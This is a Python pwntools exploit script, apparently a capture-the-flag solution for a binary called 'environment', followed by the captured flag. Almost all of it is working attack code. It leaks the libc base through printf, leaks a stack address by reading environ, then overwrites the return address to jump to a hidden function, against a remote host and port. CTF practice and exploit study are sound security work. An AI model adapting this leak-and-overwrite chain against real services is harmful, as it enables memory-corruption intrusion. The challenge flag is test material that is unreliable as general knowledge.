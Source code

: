 ```py
from pwn import *

def recycle():
	p.sendlineafter("> ", "2")
	p.sendlineafter("> ", "2")
	p.sendlineafter("> ", "N")

def plant(where, what):
	p.sendlineafter("> ", "1")
	p.sendlineafter("> ", str(where))
	p.sendlineafter("> ", str(what))

p = remote("206.189.121.131", 31886)
elf = ELF("environment")
libc = elf.libc

'''
Make rec_count 5 and get the printf@libc address
'''

for i in range(5):
	recycle()
p.recvuntil("0x")
libc.address = int(p.recvline().strip().replace(b"]", b""), 16) - libc.symbols['printf']
log.info(f"LIBC:   {hex(libc.address)}")


'''
Now, make the rec_count to 5 and leak the stack address by arbitrary read from the environ@libc
'''

for i in range(5):
	recycle()
p.sendlineafter("> ", str(libc.symbols['environ']))
p.recv(7)
stack = u64(p.recv(6).ljust(8, b"\x00"))
log.info(f"STACK:  {hex(stack)}")

ret = stack - 0x120 # return address
log.info(f"RET  :  {hex(ret)}")


'''
Overwrite the return_address with the hidden_resources to get the flag
'''
plant(ret, elf.symbols['hidden_resources'])
p.interactive()
```

Flag: `CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}`